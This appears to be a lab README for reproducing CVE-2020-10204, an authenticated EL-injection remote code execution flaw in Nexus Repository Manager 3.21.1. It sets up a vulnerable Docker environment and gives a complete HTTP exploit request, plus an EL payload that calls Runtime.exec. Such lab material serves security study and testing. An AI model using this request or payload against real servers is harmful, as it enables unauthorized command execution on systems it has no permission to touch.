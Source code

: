 # Nexus Repository Manager 3 Authenticated Remote Code Execution (CVE-2020-10204)

[中文版本（Chinese version）](README.zh-cn.md)

Nexus Repository Manager is a repository manager that organizes, stores and distributes artifacts needed for development.

In the version <= 3.21.1, a EL injection vulnerability has been discovered that allows for an attacker with an administrative account on Nexus Repository to execute arbitrary code by crafting a malicious request to Nexus Repository. This issue is patch bypass of CVE-2018-16621.

References:

- https://support.sonatype.com/hc/en-us/articles/360044356194-CVE-2020-10204-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10204/README.md
- https://github.com/jas502n/CVE-2020-10199

## Vulnerable environment

Execute following command to start a Nexus Repository Manager version 3.21.1:

```
docker compose up -d
```

After the server is started, browse `http://your-ip:8081` to see the home page of Nexus. Login the admin panel with administrator account `admin:admin` and finish the wizard.

## Exploit

Copy your cookie and CSRF token then send following request:

```
POST /service/extdirect HTTP/1.1
Host: your-ip
Content-Length: 223
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: [csrf-token]
Content-Type: application/json
Accept: */*
Origin: http://192.168.1.3:8081
Referer: http://192.168.1.3:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=[csrf-token]; NXSESSIONID=[session id]
Connection: close

{"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"2","firstName":"admin","lastName":"User","email":"admin@example.org","status":"active","roles":["nxadmin$\\B{233*233}"]}],"type":"rpc","tid":11}
```

As you can see, EL expression `233*233` is executed:

![](1.png)

Refer to <https://github.com/jas502n/CVE-2020-10199>, use EL expression payload `$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')}` to execute command `touch /tmp/success`:

![](2.png)
